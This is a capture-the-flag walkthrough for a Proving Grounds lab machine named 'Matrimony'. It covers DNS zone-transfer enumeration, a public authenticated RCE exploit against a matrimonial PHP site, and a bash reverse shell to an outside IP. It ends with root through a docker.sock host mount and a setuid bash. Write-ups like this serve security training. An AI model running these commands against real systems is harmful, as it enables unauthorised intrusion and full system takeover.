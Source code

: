 # Matrimony

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 14:46 +08
Nmap scan report for 192.168.201.196
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http
```

DNS is open, so we likely need to find a domain name somewhere.

### DNS Enum

Port 80 just shows us a static site:

<figure><img src="../../../.gitbook/assets/image (3999).png" alt=""><figcaption></figcaption></figure>

There wasn't anything interesting about this site, so I went back to DNS. Similar to HTB, some machines from PGP tend to have domain names we just enter into our `/etc/hosts` file. I entered a few like `matrimony.pg`, `matrimony.offsec` and `matrimony.off`.

Then, I tested each domain with `dig` to see which exists. `matrimony.off` reveals the most information:

```
$ dig axfr @192.168.201.196 matrimony.off

; <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.201.196 matrimony.off
; (1 server found)
;; global options: +cmd
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
matrimony.off.          604800  IN      NS      matrimony.off.
matrimony.off.          604800  IN      A       127.0.0.1
matrimony.off.          604800  IN      AAAA    ::1
prod99.matrimony.off.   604800  IN      CNAME   matrimony.off.
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
;; Query time: 164 msec
;; SERVER: 192.168.201.196#53(192.168.201.196) (TCP)
;; WHEN: Sat Jul 15 14:53:15 +08 2023
;; XFR size: 6 records (messages 1, bytes 226)
```

It also finds another subdomain at `prod99`.&#x20;

### Matrimonial Website -> RCE

The `prod99` domain shows us this marriage website:

<figure><img src="../../../.gitbook/assets/image (1630).png" alt=""><figcaption></figcaption></figure>

I created an account on the website and found that it runs on PHP. I checked around for exploits for 'matrim':

```
$ searchsploit matrim
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
2DayBiz Matrimonial Script - 'smartresult.php' SQL Injecti | php/webapps/14073.txt
2DayBiz Matrimonial Script - SQL Injection                 | php/webapps/14008.txt
2DayBiz Matrimonial Script - SQL Injection / Cross-Site Sc | php/webapps/14047.txt
Advanced Matrimonial Script 2.0.3 - SQL Injection          | php/webapps/41521.txt
Entrepreneur Matrimonial Script - Authentication Bypass    | php/webapps/41046.txt
Hindu Matrimonial Script - Authentication Bypass           | php/webapps/41044.txt
i-Net Solution Matrimonial Script 2.0.3 - 'alert.php' Cros | php/webapps/34252.txt
Matri4Web Matrimony Website Script - Multiple SQL Injectio | php/webapps/46591.txt
Matrimonial Script - SQL Injection                         | php/webapps/42545.txt
Matrimonial Script 2.7 - Authentication Bypass             | php/webapps/42566.txt
Matrimonial Website Script 1.0.2 - SQL Injection           | php/webapps/40416.txt
Matrimonial Website Script 2.1.6 - 'uid' SQL Injection     | php/webapps/43965.txt
Matrimony Script - Cross-Site Request Forgery              | php/webapps/10517.txt
Matrimony Script 2.7 - SQL Injection                       | php/webapps/42496.txt
Multireligion Responsive Matrimonial 4.7.2 - 'succid' SQL  | php/webapps/43299.txt
Multireligion Responsive Matrimonial Script 4.7.1 - SQL In | php/webapps/41530.txt
Muslim Matrimonial Script 3.02 - 'succid' SQL Injection    | php/webapps/43310.txt
Online Matrimonial Project 1.0 - Authenticated Remote Code | php/webapps/49183.py
PHP Matrimonial Script 3.0 - SQL Injection                 | php/webapps/41525.txt
Responsive Matrimonial Script 4.0.1 - SQL Injection        | php/webapps/41533.txt
Zeeways Matrimony CMS - SQL Injection                      | php/webapps/46603.txt
----------------------------------------------------------- ---------------------------------
```

Tons of exploits, and there is one script out of all of them. I tried that first, and it worked:

```
$ python2 49183.py http://prod99.matrimony.off/ test123 test123
___  ___              _  _          _      ______  _____  _____
|  \/  |             (_)| |        | |     | ___ \/  __ \|  ___|                             
| .  . |  __ _  _ __  _ | |_  __ _ | |     | |_/ /| /  \/| |__                               
| |\/| | / _` || '__|| || __|/ _` || |     |    / | |    |  __|                              
| |  | || (_| || |   | || |_| (_| || |     | |\ \ | \__/\| |___                              
\_|  |_/ \__,_||_|   |_| \__|\__,_||_|     \_| \_| \____/\____/                              
                                                                                             
[+] logging...                                                                               
[+] Successfully retrieved user [ID].
[+] Successfully uploaded.
[+] Connecting to webshell...
[+] Successfully connected to webshell.
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
```

From here, we can easily get a reverse shell:

```
$ bash -c 'bash -i >& /dev/tcp/192.168.45.189/21 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (556).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker.Sock -> Root

If we check `ifconfig`, we can find some Docker instanceis running since the IP of this machine is 172.17.0.1:

```
sam@matrimony:/home/sam$ ifconfig                                                            
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255                       
        ether 02:42:58:23:b6:06  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 4172 (4.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 4427 (4.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can `ssh` into 172.17.0.2 as `root`:

<figure><img src="../../../.gitbook/assets/image (3996).png" alt=""><figcaption></figcaption></figure>

We can find the `docker.sock` file in both machines:

```
root@9079b6b2d2fb:/tmp# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

This machine doesn't have `docker`, so we can download the binary itself from our machine. This takes a while. When it's done, we can check the images present:

```
root@9079b6b2d2fb:/tmp# ./docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
<none>       <none>    73aebf20ceb1   14 months ago   223MB
ubuntu       latest    3f4714ee068a   14 months ago   77.8MB
```

We can mount back onto the first image:

```
./docker -H unix:///run/docker.sock run -it -v /:/mnt 73aebf20ceb1 bash
```

<figure><img src="../../../.gitbook/assets/image (1807).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, simply run `chmod u+s /mnt/bin/bash`. Exit the docker container back onto the host machine and run `bash -p`:

<figure><img src="../../../.gitbook/assets/image (1622).png" alt=""><figcaption></figcaption></figure>

Rooted!
